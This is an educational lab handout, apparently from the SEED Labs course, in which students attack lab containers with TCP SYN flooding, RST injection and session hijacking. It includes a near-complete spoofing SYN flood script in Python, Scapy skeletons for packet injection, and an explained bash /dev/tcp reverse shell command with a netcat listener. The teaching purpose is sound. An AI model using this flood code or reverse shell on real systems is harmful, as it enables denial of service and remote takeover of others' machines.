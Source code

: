 =================
TCP/IP Attack Lab
=================

Overview
========

The learning objective of this lab is for students to gain first-hand
experience on vulnerabilities, as well as on attacks against these
vulnerabilities. Wise people learn from mistakes. In security education,
we study mistakes that lead to software vulnerabilities. Studying
mistakes from the past not only help students understand why systems are
vulnerable, why a seemly-benign mistake can turn into a disaster, and
why many security mechanisms are needed. More importantly, it also helps
students learn the common patterns of vulnerabilities, so they can avoid
making similar mistakes in the future. Moreover, using vulnerabilities
as case studies, students can learn the principles of secure design,
secure programming, and security testing.

The vulnerabilities in the TCP/IP protocols represent a special genre of
vulnerabilities in protocol designs and implementations; they provide an
invaluable lesson as to why security should be designed in from the
beginning, rather than being added as an afterthought. Moreover,
studying these vulnerabilities help students understand the challenges
of network security and why many network security measures are needed.
In this lab, students will conduct several attacks on TCP. This lab
covers the following topics:

-  The TCP protocol

-  TCP SYN flood attack, and SYN cookies

-  TCP reset attack

-  TCP session hijacking attack

-  Reverse shell

-  A special type of TCP attack, the Mitnick attack, is covered in a
   separate lab.

**Readings and videos.** Detailed coverage of the TCP attacks can be found in the following:

-  Chapter 16 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition,
   by Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 6 of the SEED Lecture, Internet Security: A Hands-on Approach, by Wenliang Du. See details
   at `<https://www.handsonsecurity.net/video.html>`_.

**Lab environment.** This lab has been tested on the SEED Ubuntu 20.04 VM. You can download a pre-built
image from the SEED website, and run the SEED VM on your own computer. However, most of the SEED
labs can be conducted on the cloud, and you can follow our instruction to create a SEED VM on the cloud.

Lab Environment
===============

In this lab, we need to have at least three machines. We use containers
to set up the lab environment. Figure 1
depicts the lab setup. We will use the attacker container to launch
attacks, while using the other three containers as the victim and user
machines. We assume all these machines are on the same LAN. Students can
also use three virtual machines for this lab, but it will be much more
convenient to use containers.

.. figure:: media/tcp_attacks/tcp_attacks_img1.png
   :align: center

   Figure 1: Lab environment setup

Container Setup and Commands
----------------------------

Please download the ``Labsetup.zip`` file to your VM from the lab’s website, unzip it, enter the ``Labsetup``
folder, and use the ``docker-compose.yml`` file to set up the lab environment. Detailed explanation of the
content in this file and all the involved ``Dockerfile`` can be found from the user manual, which is linked
to the website of this lab. If this is the first time you set up a SEED lab environment using containers, it is
very important that you read the user manual.

In the following, we list some of the commonly used commands related to Docker and Compose. Since
we are going to use these commands very frequently, we have created aliases for them in the ``.bashrc`` file
(in our provided SEEDUbuntu 20.04 VM).

::

   $ docker-compose build    # Build the container image
   $ docker-compose up       # Start the container
   $ docker-compose down     # Shut down the container

   // Aliases for the Compose commands above
   $ dcbuild                 # Alias for: docker-compose build
   $ dcup                    # Alias for: docker-compose up
   $ dcdown                  # Alias for: docker-compose down

All the containers will be running in the background. To run commands on a container, we often need
to get a shell on that container. We first need to use the "``docker ps``" command to find out the ID of
the container, and then use "``docker exec``" to start a shell on that container. We have created aliases for
them in the ``.bashrc`` file.

::

   $ dockps        // Alias for: docker ps --format "{{.ID}} {{.Names}}"
   $ docksh <id>   // Alias for: docker exec -it <id> /bin/bash
   
   // The following example shows how to get a shell inside hostC
   $ dockps
   b1004832e275 hostA-10.9.0.5
   0af4ea7a3e2e hostB-10.9.0.6
   9652715c8e0a hostC-10.9.0.7
   
   $ docksh 96
   root@9652715c8e0a:/#
   
   // Note: If a docker command requires a container ID, you do not need to
   //       type the entire ID string. Typing the first few characters will
   //       be sufficient, as long as they are unique among all the containers.

If you encounter problems when setting up the lab environment, please read the “Common Problems”
section of the manual for potential solutions.


About the Attacker Container
----------------------------

In this lab, we can either use the VM or the attacker container as the
attacker machine. If you look at the Docker Compose file, you will see
that the attacker container is configured differently from the other
containers.

-  *Shared folder.* When we use the attacker container to launch
   attacks, we need to put the attacking code inside the attacker
   container.Code editing is more convenient inside the VM than in containers,
   because we can use our favorite editors. In order for the VM and container to share files, we have
   created a shared folder between the VM and the container using the Docker ``volumes``. If you look
   at the Docker Compose file, you will find out that we have added the following entry to some of the
   containers. It indicates mounting the ``./volumes`` folder on the host machine (i.e., the VM) to the
   ``/volumes`` folder inside the container. We will write our code in the ``./volumes`` folder (on the
   VM), so they can be used inside the containers. 

   ::

      volumes:
            ./volumes:/volumes

-  *Host mode.* In this lab, the attacker needs to be able to sniff packets, but running sniffer programs
   inside a container has problems, because a container is effectively attached to a virtual switch, so it
   can only see its own traffic, and it is never going to see the packets among other containers. To solve
   this problem, we use the ``host`` mode for the attacker container. This allows the attacker container to
   see all the traffics. The following entry used on the attacker container:
   
   ::
   
      network_mode: host
  
   When a container is in the ``host`` mode, it sees all the host’s network interfaces, and it even has the
   same IP addresses as the host. Basically, it is put in the same network namespace as the host VM.
   However, the container is still a separate machine, because its other namespaces are still different
   from the host.

The seed Account
----------------

In this lab, we need to telnet from one containter to another. We have
already created an account called ``seed`` inside all the containers.
Its password is ``dees``. You can telnet into this account.

Task 1: SYN Flooding Attack
===========================

.. figure:: media/tcp_attacks/tcp_attacks_img2.png
   :align: center

   Figure 2: SYN Flooding Attack

SYN flood is a form of DoS attack in which attackers send many SYN
requests to a victim’s TCP port, but the attackers have no intention to
finish the 3-way handshake procedure. Attackers either use spoofed IP
address or do not continue the procedure. Through this attack, attackers
can flood the victim’s queue that is used for half-opened connections,
i.e. the connections that has finished SYN, SYN-ACK, but has not yet
gotten a final ACK back. When this queue is full, the victim cannot take
any more connection. Figure 2 illustrates the attack.

The size of the queue has a system-wide setting. In Ubuntu OSes, we can
check the setting using the following command. The OS sets this value
based on the amount of the memory the system has: the more memory the
machine has, the larger this value will be.

::

   # sysctl net.ipv4.tcp_max_syn_backlog
   net.ipv4.tcp_max_syn_backlog = 128

We can use command ``"netstat -nat"`` to check the usage of the queue,
i.e., the number of half-opened connection associated with a listening
port. The state for such connections is ``SYN-RECV``. If the 3-way
handshake is finished, the state of the connections will be ESTABLISHED.

**SYN Cookie Countermeasure:** By default, Ubuntu’s SYN flooding countermeasure is turned on. This
mechanism is called SYN cookie. It will kick in if the machine detects
that it is under the SYN flooding attack. In our victim server
container, we have already turned it off (see the ``sysctls`` entry in
the ``docker-compose.yml`` file). We can use the following ``sysctl``
command to turn it on and off:

::

   # sysctl -a | grep syncookies     (Display the SYN cookie flag) 
   # sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
   # sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)

To be able to use ``sysctl`` to change the system variables inside a
container, the container needs to be configured with the
``"privileged: true"`` entry (which is the case for our victim server).
Without this setting, if we run the above command, we will see the
following error message. The container is not given the privilege to
make the change.

::

   # sysctl -w net.ipv4.tcp_syncookies=1
   sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system

Task 1.1: Launching the Attack Using Python
-------------------------------------------

We provide a Python program called ``synflood.py``, but we have
intentionally left out some essential data in the code. This code sends
out spoofed TCP SYN packets, with randomly generated source IP address,
source port, and sequence number. Students should finish the code and
then use it to launch the attack on the target machine:

::

   #!/bin/env python3
     
   from scapy.all import IP, TCP, send
   from ipaddress import IPv4Address
   from random import getrandbits

   ip  = IP(dst="*.*.*.*")
   tcp = TCP(dport=**, flags='S')
   pkt = ip/tcp

   while True:
       pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
       pkt[TCP].sport = getrandbits(16)     # source port
       pkt[TCP].seq   = getrandbits(32)     # sequence number
       send(pkt, verbose = 0)

Let the attack run for at least one minute, then try to telnet into the
victim machine, and see whether you can succeed. Very likely that your
attack will fail. Multiple issues can contribute to the failure of the
attack. They are listed in the following with guidelines on how to
address them.

-  **TCP cache issue:** See Note A below.

-  **VirtualBox issue:** If you are doing the attack from one VM against
   another VM, instead of using our container setup, please see Note B
   below. This is not an issue if you are doing the attack using the
   container setup.

-  **TCP retransmission issue:** After sending out the SYN+ACK packet,
   the victim machine will wait for the ACK packet. If it does not come
   in time, TCP will retransmit the SYN+ACK packet. How many times it
   will retransmit depends on the following kernel parameters (by
   default, its value is 5):

   ::

      # sysctl net.ipv4.tcp_synack_retries
      net.ipv4.tcp_synack_retries = 5

   After these 5 retransmissions, TCP will remove the corresponding item
   from the half-open connection queue. Every time when an item is
   removed, a slot becomes open. Your attack packets and the legitimate
   telnet connection request packets will fight for this opening. Our
   Python program may not be fast enough, and can thus lose to the
   legitimate telnet packet. To win the competition, we can run multiple
   instances of the attack program in parallel. Please try this approach
   and see whether the success rate can be improved. How many instances
   should you run to achieve a reasonable success rate?

-  **The size of the queue:** How many half-open connections can be
   stored in the queue can affect the success rate of the attack. The
   size of the queue be adjusted using the following command:

   ::

      # sysctl -w net.ipv4.tcp_max_syn_backlog=80

   While the attack is ongoing, you can run one of the following
   commands on the victim container to see how many items are in the
   queue. It should be noted that one fourth of the space in the queue
   is reserved for “proven destinations” (see Note A below), so if we
   set the size to 80, its actual capacity is about 60.

   ::

      $ netstat -tna | grep SYN_RECV | wc -l
      $ ss -n state syn-recv sport = :23 | wc -l

   Please reduce the size of the half-open connection queue on the
   victim server, and see whether your success rate can improve.

**Note A: A kernel mitigation mechanism.** On Ubuntu 20.04, if machine X has never made a TCP connection to the
victim machine, when the SYN flooding attack is launched, machine X will
not be able to telnet into the victim machine. However, if before the
attack, machine X has already made a telnet (or TCP connection) to the
victim machine, then X seems to be “immune” to the SYN flooding attack,
and can successfully telnet to the victim machine during the attack. It
seems that the victim machine remembers past successful connections, and
uses this memory when establishing future connections with the
“returning” client. This behavior does not exist in Ubuntu 16.04 and
earlier versions.

This is due to a mitigation of the kernel: TCP reserves one fourth of
the backlog queue for “proven destinations” if SYN Cookies are disabled.
After making a TCP connection from ``10.9.0.6`` to the server
``10.9.0.5``, we can see that the IP address ``10.9.0.6`` is remembered
(cached) by the server, so they will be using the reserved slots when
connections come from them, and will thus not be affected by the SYN
flooding attack. To remove the effect of this mitigation method, we can
run the ``"ip tcp_metrics flush"`` command on the server.

::

   # ip tcp_metrics show
   10.9.0.6 age 140.552sec cwnd 10 rtt 79us rttvar 40us source 10.9.0.5

   # ip tcp_metrics flush

**Note B: RST packets.** If you are doing this task using two VMs, i.e., launching the attack
from one VM against another VM, instead of attacking a container, from
the Wireshark, you will notice many RST packets (reset). Initially, we
thought that the packets were generated from the recipient of the
SYN+ACK packet, but it turns out they are generated by the NAT server in
our setup.

Any traffic going out of the VM in our lab setup will go through the NAT
server provided by VirtualBox. For TCP, NAT creates address translation
entries based on the SYN packet. In our attack, the SYN packets
generated by the attacker did not go through the NAT (both attacker and
victims are behind the NAT), so no NAT entry was created. When the
victim sends SYN+ACK packet back to the source IP (which is randomly
generated by the attacker), this packet will go out through the NAT, but
because there is no prior NAT entry for this TCP connection, NAT does
not know what to do, so it sends a TCP RST packet back to the victim.

RST packets cause the victim to remove the data from the half-open
connection queue. Therefore, while we are trying fill up this queue with
the attack, VirtualBox helps the victim to remove our records from the
queue. It becomes a competition between our code and the VirtualBox.

Task 1.2: Launch the Attack Using C
-----------------------------------

Other than the TCP cache issue, all the issues mentioned in Task 1.1 can
be resolved if we can send spoofed SYN packets fast enough. We can
achieve that using C. We provide a C program called ``synflood.c`` in
the lab setup. Please compile the program on the VM and then launch the
attack on the target machine.

::

   // Compile the code on the host VM
   $ gcc -o synflood synflood.c

   // Launch the attack from the attacker container
   # synflood 10.9.0.5 23

Before launching the attack, please restore the queue size to its
original value. Please compare the results with the one using the Python
program, and explain the reason behind the difference.

Task 1.3: Enable the SYN Cookie Countermeasure
----------------------------------------------

Please enable the SYN cookie mechanism, and run your attacks again, and
compare the results.

Task 2: TCP RST Attacks on ``telnet`` Connections
=================================================

The TCP RST Attack can terminate an established TCP connection between
two victims. For example, if there is an established ``telnet``
connection (TCP) between two users A and B, attackers can spoof a RST
packet from A to B, breaking this existing connection. To succeed in
this attack, attackers need to correctly construct the TCP RST packet.

In this task, you need to launch a TCP RST attack from the VM to break
an existing ``telnet`` connection between A and B, which are containers.
To simplify the lab, we assume that the attacker and the victim are on
the same LAN, i.e., the attacker can observe the TCP traffic between A
and B.

**Launching the attack manually.** Please use Scapy to conduct the TCP RST attack. A skeleton code is
provided in the following. You need to replace each ``@@@@`` with an
actual value (you can get them using Wireshark):

::

   #!/usr/bin/env python3
   from scapy.all import *

   ip  = IP(src="@@@@", dst="@@@@")
   tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
   pkt = ip/tcp
   ls(pkt)
   send(pkt,verbose=0)

**Optional: Launching the attack automatically.** Students are encouraged to write a program to launch the attack
automatically using the sniffing-and-spoofing technique. Unlike the
manual approach, we get all the parameters from sniffed packets, so the
entire attack is automated. Please make sure that when you use Scapy’s
``sniff`` function, don’t forget to set the ``iface`` argument.

Task 3: TCP Session Hijacking
=============================

.. figure:: media/tcp_attacks/tcp_attacks_img3.png
   :align: center

   Figure 3: TCP Session Hijacking Attack

The objective of the TCP Session Hijacking attack is to hijack an
existing TCP connection (session) between two victims by injecting
malicious contents into this session. If this connection is a ``telnet``
session, attackers can inject malicious commands (e.g. deleting an
important file) into this session, causing the victims to execute the
malicious commands. Figure 3 depicts how the
attack works. In this task, you need to demonstrate how you can hijack a
``telnet`` session between two computers. Your goal is to get the
``telnet`` server to run a malicious command from you. For the
simplicity of the task, we assume that the attacker and the victim are
on the same LAN.

**Launching the attack manually.** Please use Scapy to conduct the TCP Session Hijacking attack. A skeleton
code is provided in the following. You need to replace each ``@@@@``
with an actual value; you can use Wireshark to figure out what value you
should put into each field of the spoofed TCP packets.

::

   #!/usr/bin/env python3
   from scapy.all import *

   ip  = IP(src="@@@@", dst="@@@@")
   tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
   data = "@@@@"
   pkt = ip/tcp/data
   ls(pkt)
   send(pkt,verbose=0)

**Optional: Launching the attack automatically.** Students are encouraged to write a program to launch the attack
automatically using the sniffing-and-spoofing technique. Unlike the
manual approach, we get all the parameters from sniffed packets, so the
entire attack is automated. Please make sure that when you use Scapy’s
``sniff`` function, don’t forget to set the ``iface`` argument.

Task 4: Creating Reverse Shell using TCP Session Hijacking
==========================================================

When attackers are able to inject a command to the victim’s machine
using TCP session hijacking, they are not interested in running one
simple command on the victim machine; they are interested in running
many commands. Obviously, running these commands all through TCP session
hijacking is inconvenient. What attackers want to achieve is to use the
attack to set up a back door, so they can use this back door to
conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the
victim machine to give the attack the shell access to the victim
machine. Reverse shell is a shell process running on a remote machine,
connecting back to the attacker’s machine. This gives an attacker a
convenient way to access a remote machine once it has been compromised.

In the following, we will show how we can set up a reverse shell if we
can directly run a command on the victim machine (i.e. the server
machine). In the TCP session hijacking attack, attackers cannot directly
run a command on the victim machine, so their jobs is to run a
reverse-shell command through the session hijacking attack. In this
task, students need to demonstrate that they can achieve this goal.

To have a ``bash`` shell on a remote machine connect back to the
attacker’s machine, the attacker needs a process waiting for some
connection on a given port. In this example, we will use ``netcat``.
This program allows us to specify a port number and can listen for a
connection on that port. In the following demo, we show two windows,
each one is from a different machine. The top window is the attack
machine ``10.9.0.1``, which runs ``netcat`` (``nc`` for short),
listening on port ``9090``. The bottom window is the victim machine
``10.9.0.5``, and we type the reverse shell command. As soon as the
reverse shell gets executed, the top window indicates that we get a
shell. This is a reverse shell, i.e., it runs on ``10.9.0.5``.

::

   [backgroundcolor=]
              +---------------------------------------------------+ 
              | On 10.9.0.1 (attcker)                             |
              |                                                   | 
              | $ nc -lnv 9090                                    |  
              | Listening on 0.0.0.0 9090                         |  
              | Connection received on 10.9.0.5 49382             |  
              | $   <--+ This shell runs on 10.9.0.5              | 
              |                                                   |  
              +---------------------------------------------------+  
             
              +---------------------------------------------------+  
              | On 10.9.0.5 (victim)                              |
              |                                                   | 
              |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
              |                                                   | 
              +---------------------------------------------------+

We provide a brief description on the reverse shell command in the
following. Detailed explanation can be found in the SEED book.

-  ``"/bin/bash -i"``: ``i`` stands for interactive, meaning that the
   shell must be interactive (must provide a shell prompt)

-  ``"> /dev/tcp/10.9.0.1/9090"``: This causes the output (``stdout``)
   of the shell to be redirected to the tcp connection to
   ``10.9.0.1``\ ’s port ``9090``. The output ``stdout`` is represented
   by file descriptor number 1.

-  ``"0<&1"``: File descriptor 0 represents the standard input
   (``stdin``). This causes the ``stdin`` for the shell to be obtained
   from the tcp connection.

-  ``"2>&1"``: File descriptor 2 represents standard error ``stderr``.
   This causes the error output to be redirected to the tcp connection.

In summary, ``"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1"`` starts
a ``bash`` shell, with its input coming from a tcp connection, and its
standard and error outputs being redirected to the same tcp connection.

In the demo shown above, when the ``bash`` shell command is executed on
``10.9.0.5``, it connects back to the ``netcat`` process started on
``10.9.0.1``. This is confirmed via the
``"Connection received on 10.9.0.5"`` message displayed by ``netcat``.

The description above shows how you can set up a reverse shell if you
have the access to the target machine, which is the ``telnet`` server in
our setup, but in this task, you do not have such an access. Your task
is to launch an TCP session hijacking attack on an existing ``telnet``
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server.

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.

Acknowledgment
==============

I would like to thank CSender (GitHub ID), Eric Dong, and Chao Gong, for
their suggestions on improving the SYN flooding attack task in this lab.
